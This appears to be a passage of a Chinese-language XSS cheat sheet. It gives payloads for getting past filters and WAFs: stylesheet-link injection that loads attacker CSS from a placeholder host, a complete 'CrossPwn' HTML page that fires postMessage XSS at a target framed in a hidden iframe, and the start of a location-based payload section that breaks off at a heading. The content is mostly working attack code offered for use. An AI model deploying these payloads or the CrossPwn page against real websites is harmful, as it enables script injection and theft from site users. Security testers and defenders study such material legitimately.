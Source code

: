 

## style标签的替代方案

**当 `style` 关键字被阻止（无论是内联样式还是标签名）时使用。提供 HOST 和 FILE 用于加载 CSS，或直接在第二个payload中提供 CSS 代码**

```javascript
<link rel=stylesheet href=//HOST/FILE>
<link rel=stylesheet href=data:text/css,CSS>
```





## 跨域脚本攻击 - CrossPwn

**将以下内容保存为 `.html` 文件，并按如下方式使用**

**使用方法：`http://facebook.com.localhost/crosspwn.html?target=//brutelogic.com.br/tests/
status.html&msg=<script>alert(document.domain)`**

- `facebook.com` 是允许的源域名
- `localhost` 是攻击者的域名。
- `//brutelogic.com.br/tests/status.html` 是目标页面
- `<script>alert(document.domain)` 是发送的消息（payload）。

```html
<!DOCTYPE html>
<body onload="CrossPwn()">
<h2>CrossPwn</h2>
<p>OnMessage XSS</p>
<p>Use target & msg as URL parameters.</p>
<iframe id="f" height="0" style="visibility:hidden">
</iframe>
<script>
 searchParams = new URLSearchParams(document.location.search);
 target = searchParams.get('target');
 msg = searchParams.get('msg');
 document.getElementById('f').setAttribute('src', target);
 function CrossPwn() {frames[0].postMessage(msg,'*')}
</script>
</body>
</html>
```



## 基于loaction 的payload

**下面xss payload使用一种更复杂的方式来执行，通过利用文件属性来填充另一个文档属性（localtion）。这导致了复杂的攻击方式，可以非常有效绕过过滤器和WAF，因为它们使用任意标签（XHTML），之前提到的任何`Agnostic`事件处理程序都可以使用。在这里，默认使用`onmouseover`事件。  **

**在URL中，加号(`+`)需要编码为`%2B`**



## Location基础攻击手法
